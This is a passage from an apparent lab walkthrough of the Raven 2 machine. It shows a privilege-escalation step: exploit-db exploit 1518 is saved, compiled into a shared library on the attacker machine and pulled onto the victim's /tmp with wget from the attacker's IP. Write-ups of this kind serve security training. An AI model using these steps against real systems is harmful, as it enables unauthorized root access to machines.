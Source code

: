 ![Escalation of privileges enumeration](img/raven2-17.png)

After reviewing the exploit [http://www.exploit-db.com/exploits/1518](http://www.exploit-db.com/exploits/1518), we copy-paste the exploit and save it as 1518.c in our apache server:

```bash
cd /var/www/html/
vi 1518.c
# and we copy paste the exploit
```  

Compiling this C code in the victim attack gives us error.

![Error when compiling](img/raven2-18.png) 

Then, we are going to compile in the attacker machine.

```bash
# To creates 1518.o from 1518.c
sudo gcc -g -c 1518.c

# To create 1518.so from both 1518.c and 1518.o
sudo gcc -g -shared -Wl,-soname,1518.so -o 1518.so 1518.o -lc 
```

The file we are going to retrieve from the victim machine is 1518.so. So from /tmp in the victim machine:

```bash
cd /tmp
wget http://192.168.56.102/1518.so
```
